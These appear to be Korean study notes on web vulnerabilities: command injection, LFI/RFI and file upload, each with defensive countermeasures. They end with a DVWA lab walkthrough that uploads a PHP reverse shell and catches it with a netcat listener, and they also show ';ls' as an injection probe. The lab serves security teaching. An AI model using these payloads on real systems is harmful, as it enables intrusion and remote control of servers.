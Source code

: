 ##### 2-1-1. Command Injection

Command Injection은 시스템에서 사용하는 명령어를 사용할 수 있는 환경으로서, 명령어를 주입하여 공격하는 방식이다. 취약점 발생 조건으로는 `소스코드 내 시스템 함수`를 사용하는 경우이다. 여기서 소스코드 내 시스템 함수는 `exec`, `system`, `cmd`, `shell`과 같은 함수를 의미한다.

<mark style='background-color: #dcffe4'> 취약점 검증 방법 </mark>은  `;`, `|`, `||`, `&&`를 통해 검증 가능하다.<br>
`;`는 첫 번째 명령어와 상관없이 두 번째 명령어 실행<br>
`|`는 첫 번째 명령어 에러 발생 시 두 번째 명령어 실행<br>
`||`는 첫 번째 명령어 성공 시 두 번째 명령어 실행이 안됨<br>
`&&`는 첫 번째 명령어 실행 시 두 번째 명령어 실행이 안됨<br>
파라미터 데이터에 `;ls`와 같이 입력하여 실행 여부를 확인해야함<br>
입력되는 데이터의 인코딩 여부를 고려해야함<br>
일반적인 웹에서는 취약점을 발견하기 매우 어려움<br>
네트워크 장비의 관리자 페이지에서 많이 발생됨<br>
`단순히 web서버만 보호할게 아니라 모든 대역에 대해 보호가 필요함.`<br>
{:.note}   

<mark style='background-color: #dcffe4'> 대응방안 </mark>에는 주로 파라미터 변조 공격에 대한것이 있는데 가장 쉬운 대응은 `;`, `|`, `||`, `&&` 문자열을 치환(시큐어 코딩)하는 방법과, WAF에서 문자열을 탐지하도록 `룰` 설정하는 방법이 있다.

##### 2-1-2. File Inclusion

FIle Inclusion은 `파일 참조 공격`, `LFI/RFI`가 있다. LFI는 local이고, RFI는 Remote를 의미한다.<br>
<mark style='background-color: #dcffe4'> 취약점 원인 </mark> 에는 `include`, `locate`, `show`, `content`, `action` 등의 함수에서 발생한다.<br>
이러한 취약점 원인에 대해 검증하기 위해서는 <mark style='background-color: #dcffe4'> 파라미터 데이터 입력, Request_body(본문)</mark> 에 대한 검증을 해야한다. <br>

`LFI`는 ../../../ 를 통해 특정위치 파일을 참조하며, file:///로 특정 파일을 열람한다. 예를들어 ?page=file1.php 구조 같은경우 취약점이 있을 확률이 높다. 또한 LFI는 단순히 타겟 서버에 저장되어 있는 파일을 열람하는 수준에서 그치지만 `RFI`는 공격자가 만들어놓은 취약한 페이지를 타겟 시스템으로 import하여 실행하기 떄문에 `RCE` 공격으로 연계가 가능하다. 즉 RFI 공격이 가능하면 원격지에서 타겟시스템에 원하는 파일을 생성하거나 실핼할 수가 있다.

인코딩에 유의해야 하며<br>
RFI구조는 http://원격지 주소로 이뤄져있다.<br>
{:.note}

`http method 구조`
GET: 특정 페이지를 서버로 요청<br>
POST: 데이터를 서버와 비교 또는 서버에 반영<br>
PUT: 서버로 데이터를 업로드, FileUpload취약점에서도 연계해서 기억해야함<br>
DELETE: 서버에 저장된 데이터(리소스)를 삭제<br>
OPTIONS: 어떤 유형의 METHOD가 Allow되어 있는지를 화인할 때 사용함<br>
{:.note}

이러한 File Inclusion <mark style='background-color: #dcffe4'> 대응방식 </mark> 으론 `../`, `http://`, `https://` 문자열을 치환하는 방식이 있으며, WAF에서 문자열을 탐지하도록 룰을 설정해야 한다.(탐지영역 Request_URI, Request_Body로 설정해야함)

##### 2-1-3. File Upload Vulnerability

File Upload Vulnerability는 주로 `게시판의 업로드 기능`을 통해 `악성 파일을 업로드`하여 실행되며 주요 취약점으로는 `확장자 기반` 및 `Header 정보에 Content-type 필터링`이 있다. 이러한 <mark style='background-color: #dcffe4'> 취약점을 검증 </mark> 하는 방법으론  php, sh, html 등 `확장자를 가지는 파일을 업로드하여 취약점 여부`를 판단할 수 있다. File Upload는 게시판 뿐만 아니라 Method를 통해서도 강제 업로드가 가능하기 때문에 WAF 대응이 불가하다.

아래와 같이 kali-linux에서 dvwa에서 실습을 수행할 수 있다.
```bash
cd /usr/bin/share/dvwa
curl -X OPTIONS - v http://127.0.0.1:42001/index.php
curl -X OPTIONS - v http://vulnweb.com

cd /home/kali/Desktop
cp /usr/share/webshells/php/php-reverse-shell.php ./
mousepad php-reverse-shell.php // 본인의 ip로 변경한뒤, dvwa 홈페이지에서 php 파일 업로드
./../hackable/uploads/php-reverse-shell.php // succesfully uploaded! 메세지 출력됨
nc -lvnp 1234 // port 1234를 리스닝 상태로 조정
# http://127.0.0.1:42001/hackable/uploads/php-reverse-shell.php에 접속하면 shell에 `uid=134(_dvwa) gid=138(_dvwa) groups=138(_dvwa) /bin/sh: 0: can't access tty; job control turned off` 라고 뜸
```
